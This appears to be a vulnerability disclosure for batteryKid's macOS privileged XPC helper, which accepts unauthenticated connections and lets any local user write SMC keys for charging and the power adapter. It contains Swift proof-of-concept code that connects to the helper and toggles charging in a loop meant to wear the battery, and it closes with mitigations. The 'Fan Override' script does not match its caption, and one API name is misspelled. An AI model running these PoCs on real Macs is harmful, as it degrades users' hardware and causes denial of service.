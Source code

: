 ## Summary

batteryKid for macOS registers a root-privileged XPC helper (`me.alaneuler.batteryKid.PrivilegeHelper`) that exposes unauthenticated methods to read and write SMC (System Management Controller) keys. Any local user can connect to this helper and perform privileged hardware operations, such as disabling charging or disconnecting the power adapter, without any authorization checks. This can lead to denial of service, degraded hardware performance, and potential battery wear.


## Technical Details

The vulnerable implementation is located in:
- [PrivilegeHelper.swift](https://github.com/alaneuler/batteryKid/blob/79af27c5e62b00dc5a09ddf5dadf61f38100f131/PrivilegeHelper/PrivilegeHelper.swift)
- [SMC.swift](https://github.com/alaneuler/batteryKid/blob/79af27c5e62b00dc5a09ddf5dadf61f38100f131/PrivilegeHelper/SMC.swift)

The privileged helper runs as root and registers a Mach service (`me.alaneuler.batteryKid.PrivilegeHelper`) using NSXPCListener. It then unconditionally accepts all incoming connections:

```swift
  func listener(
    _: NSXPCListener,
    shouldAcceptNewConnection newConnection: NSXPCConnection
  ) -> Bool {
    newConnection.exportedInterface = NSXPCInterface(with: HelperProtocol.self)
    newConnection
      .remoteObjectInterface = NSXPCInterface(with: RemoteApplicationProtocol
        .self)
    newConnection.exportedObject = self
    newConnection.resume()
    return true
  }
```

No validation (such as auditToken or code signing) is performed. 

The helper then exposes functions like:

```
func disableCharging(completion: @escaping (Int) -> Void)
func enableCharging(completion: @escaping (Int) -> Void)
func disablePowerAdapter(completion: @escaping (Int) -> Void)
func enablePowerAdapter(completion: @escaping (Int) -> Void)
```

This writes directly to low-level SMC keys such as:

- `CH0B`: battery charging state (0 = charging, 2 = not charging)
- `CH0I`: AC adapter presence (0 = present, 1 = disconnected)
- `F0Mn`: fan minimum RPM (setting to 0 disables fan)
- `F0Mx`: fan max speed (setting too high stresses fans)

There is no authentication, no sandboxing, and no validation of the calling client. Any local process can connect to the MachService and issue dangerous SMC writes via exposed methods.

## Proof-of-Concepts

You can interact with the XPC service from any unprivileged local process using `pc_connection_create_mach_service()` or `NSXPCConnection`, as long as the Mach service is registered.

#### Fan Override (Force 0 RPM Fan)

>This script sets the minimum fan speed to 0, causing overheating risks.

```swift
import Foundation
import BatteryKidXPC  // assumes the helper client interface is accessible

let connection = NSXPCConnection(machServiceName: "me.alaneuler.batteryKid.PrivilegeHelper", options: [])
connection.remoteObjectInterface = NSXPCInterface(with: HelperProtocol.self)
connection.resume()

let helper = connection.remoteObjectProxyWithErrorHandler { error in
    print("XPC Error: \(error)")
} as? HelperProtocol

helper?.disableCharging { result in
    print("disableCharging returned: \(result)")
}

sleep(1)

helper?.enablePowerAdapter { result in
    print("enablePowerAdapter returned: \(result)")
}

sleep(1)

helper?.disablePowerAdapter { result in
    print("disablePowerAdapter returned: \(result)")
}
```

You could expand this by modifying the helper to expose an XPC method like `setFanMinRPM(value: Int)` which internally writes to SMC key `F0Mn`.

#### Proof-of-Concept disable battery charging

>This PoC alternates SMC register CH0B rapidly to damage charging behavior.

```swift
for _ in 0..<100 {
    helper?.disableCharging { _ in }
    usleep(50000) // 50ms
    helper?.enableCharging { _ in }
    usleep(50000)
}
```

Over time, this could degrade the battery and confuse firmware logic, especially on older Macs where SMC state is more fragile.

#### Fake Power Adapter Disconnect

>This makes the system believe the AC adapter is unplugged, even if it’s not.
```swift
helper?.disablePowerAdapter { result in
    print("System now believes it's on battery power.")
}
```

## Impact

A local, unprivileged attacker can:

- Disable battery charging
- Disconnect the power adapter virtually
- Potentially damage battery health or trigger thermal throttling
- Cause denial of service on laptops (by draining battery)

This breaks macOS’s security boundary between user and system-level operations.

## Mitigation

**Recommended fixes:**

1. Enforce connection validation
Use auditToken in shouldAcceptNewConnection() to restrict access to trusted, signed client apps.

2. Restrict exposed methods
Only expose a minimal, readonly subset of functions to non-privileged clients (if any at all).

3. Add authentication logic
Consider a signed message protocol or authentication handshake before accepting requests.

4. Use SMJobBless properly
Only allow elevated operations after proper user consent and authorization.
